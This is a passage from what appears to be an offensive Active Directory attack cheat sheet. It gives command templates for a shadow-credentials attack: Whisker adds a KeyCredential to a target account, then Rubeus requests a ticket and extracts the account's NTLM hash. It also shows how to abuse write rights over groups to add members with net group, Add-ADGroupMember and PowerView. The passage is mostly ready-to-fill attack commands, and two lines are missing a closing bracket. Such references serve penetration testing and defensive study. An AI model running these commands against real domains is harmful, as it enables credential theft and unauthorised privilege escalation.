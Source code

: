 ```bash
# Adds a new value to the targeted object's msDS-KeyCredentialLink attribute.
# The public / private keys will be generated automatically and protected using a randomly generated password or the password specified using /password:<PASSWORD>.
# The DeviceID of the generated KeyCredential should be kept to remove the added key.
Whisker.exe add /target:<USERNAME>
Whisker.exe add /target:<USERNAME> /domain:<DOMAIN_FQDN> /dc:<DC> /path:<EXPORTED_CERTIFCATE_FILE> /password:<PASSWORD>

# Requests a TGT for the given user using the previously defined certificate and extract the NTLM hash of the account using a subsequent U2U ST request.
# This command is automatically generated by Whisker upon adding a certificate.
Rubeus.exe asktgt /user:<USERNAME> /certificate:<BASE64_CERTIFICATE> /password:"<CERTIFICATE_PASSWORD>" /domain:<DOMAIN_FQDN> /dc:<DC> /getcredentials /show

# Lists the DeviceID and creation timestamp of the KeyCredentials stored in the msDS-KeyCredentialLink attribute of the specified object.
Whisker.exe list /target:<USERNAME>
Whisker.exe list /target:<USERNAME> /domain:<DOMAIN_FQDN> /dc:<DC

# Removes the KeyCredential specified using its DeviceID for the given object.
Whisker.exe remove /target:<USERNAME> /deviceID:<DEVICE_ID>
Whisker.exe remove /target:<USERNAME> /deviceID:<DEVICE_ID> /domain:<DOMAIN_FQDN> /dc:<DC
```

###### Group - GenericAll / GenericWrite / AddMembers / AllExtendedRights / WriteProperty to all properties / WriteProperty to the Member attribute / Self all or Self-Membership

Generic Write access grants the ability to write to any non-protected attribute
on the target object, including `members` for a group.

`net group`, `RSAT`'s `Add-ADGroupMember`, and `PowerView`'s
`Add-DomainGroupMember` PowerShell cmdlets can be used to add others security
objects to the specified group. Additionally, the `Active Directory Users and
Computers` snap-in can be used to add or remove members from Active Directory
groups using a graphical interface.

Note that the `Self-Membership` right does not seem to be exploitable using the
`net group` command but can be exploited using the PowerShell `ActiveDirectory`
module `Add-ADGroupMember`.

```bash
net group "<GROUP>" <USERNAME> /add /domain

Add-ADGroupMember -Identity "<GROUP>" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
Add-ADGroupMember -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN> -Credential <PSCredentials> -Identity "<GROUP>" -Members <USERNAME>

Add-DomainGroupMember -Identity "<GROUP>" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
Add-DomainGroupMember -Domain <DOMAIN> -Credential <PSCredentials> -Identity "<GROUP>" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
```
